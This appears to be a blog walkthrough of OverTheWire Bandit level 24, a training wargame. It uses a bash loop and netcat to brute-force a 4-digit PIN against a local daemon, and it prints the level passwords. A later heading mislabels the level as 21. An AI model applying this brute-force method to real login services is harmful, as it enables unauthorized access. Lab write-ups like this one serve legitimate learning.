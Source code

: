 ss---
layout: post
date:   2021-04-09 10:21:00 +0100
categories: OverTheWire Bandit
---

# Level goal
```bash
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```

## This sounds like a loop and some other stuff, script time? Firstly.. Lets see what happens
```bash
bandit24@bandit:~$ mkdir /tmp/zd24
bandit24@bandit:~$ cd /tmp/zd24
bandit24@bandit:/tmp/zd24$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234
Wrong! Please enter the correct pincode. Try again.
```

## Okay, looks like I'll need to echo the password and a random digit between (assuming) 0000 and 9999 - Lets learn stuff!

## Step 1: Make a script that just loops through everything.

```bash
#!/bin/bash
for i in {0000..9999}
do
attempt="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
echo "$attempt" >> list.txt
done
#This was after me breaking stuff... Script 23234
```

## Okay, now that drama is sorted lets generate the list then send it to netcat.

```bash
bandit24@bandit:/tmp/zd24$ ls
list.txt  script.sh
bandit24@bandit:/tmp/zd24$ cat list.txt | nc localhost 30002
...snip....
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```


VICTORY.

## The password for level 21: 	
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

On the next episode of Bandit...

```bash
ssh bandit25@localhost
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```